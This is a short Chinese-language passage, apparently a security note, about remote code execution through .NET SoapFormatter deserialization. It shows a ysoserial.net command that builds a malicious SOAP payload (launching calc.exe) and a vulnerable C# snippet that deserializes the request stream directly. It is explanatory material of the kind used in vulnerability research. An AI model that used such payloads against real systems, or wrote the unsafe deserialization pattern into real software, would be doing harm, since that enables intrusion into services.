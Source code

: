 ```csharp
```

### 反序列化 RCE 漏洞利用代码
`SoapFormatter` 反序列化过程几乎不做类型安全检查，攻击者可利用已知 gadget 构造恶意 SOAP 数据实现 RCE。例如：
```bash
# 使用 ysoserial.net 生成恶意 SOAP payload
ysoserial.exe -g PSObject -f soap -c "calc.exe" -o payload.soap
```

### Sink 点
反序列化发生在调用 `SoapFormatter.Deserialize` 时，若输入可控，极易导致漏洞。关键点：
- 直接反序列化用户可控的 SOAP 数据。
- 反序列化过程几乎没有类型安全检查。
- 应用程序长时间未更新，仍使用过时的序列化技术。
- 示例代码：
```csharp
using (var stream = Request.InputStream)
{
    var obj = new SoapFormatter().Deserialize(stream);
}
```
